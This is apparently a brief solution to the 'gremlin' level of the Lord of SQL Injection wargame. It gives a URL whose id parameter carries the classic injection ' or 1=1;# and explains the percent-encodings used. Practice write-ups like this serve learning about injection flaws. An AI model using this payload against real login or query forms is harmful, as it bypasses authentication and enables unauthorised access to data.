

This is the challenge.
Here you can see that they just need something in place of 'id'.

It can be a nothing or something else, but it should be present.

So try giving 'nothing' or TRUE

The URL be like
(https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=%27%20or%201=1;%23)

This Should solve it.

%27 - refers to ' (Single Quotes)
%20 - refers to ' ' (space)
%23 - refers to '#'